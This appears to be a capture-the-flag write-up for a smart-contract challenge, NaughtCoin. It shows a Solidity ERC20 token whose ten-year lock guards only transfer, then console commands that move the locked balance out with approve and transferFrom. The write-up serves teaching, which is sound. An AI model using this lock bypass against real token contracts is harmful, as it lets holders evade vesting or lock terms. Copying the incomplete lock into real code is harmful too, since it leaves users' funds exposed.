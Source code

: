 # Challenge 15

<img src="./images/BigLevel15.svg" alt="15" >

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

Challenge
---
> NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Solution 
---
1. If You Look at the ERC20 Contract There is `transferFrom` function, but first we need approval so let's look at the `approve` function 

```solidity
    function _approve(address owner, address spender, uint256 amount) internal virtual {
        require(owner != address(0), "ERC20: approve from the zero address");
        require(spender != address(0), "ERC20: approve to the zero address");

        _allowances[owner][spender] = amount;
        emit Approval(owner, spender, amount);
    }
```

it says owner cannot be 0 and spender also so we can do this 
First Check See Our balance.
```js
(await contract.balanceOf(player)).toString()
// '1000000000000000000000000'
```

then let's Appprove for ourself to transfer
```js
await contract.approve(player, "1000000000000000000000000");
```

then let's see there is function call `allowance` how many amount spender allowed to spend. in our case we are the owner and spender also.
```js
(await contract.allowance(player, player)).toString();
// '1000000000000000000000000'
```

now we can transfer easily to another address using `transferFrom` function
```js
await contract.transferFrom(player,OTHER_ADDRESS,"1000000000000000000000000")
```
you will Successfully send amount to the `OTHER_ADDRESS` and for checking if amount is deducted or not.

```js
(await contract.balanceOf(player)).toString();
// "0"
```

You now completed Challenge, now submit the instance your challenge will be cleared.🎉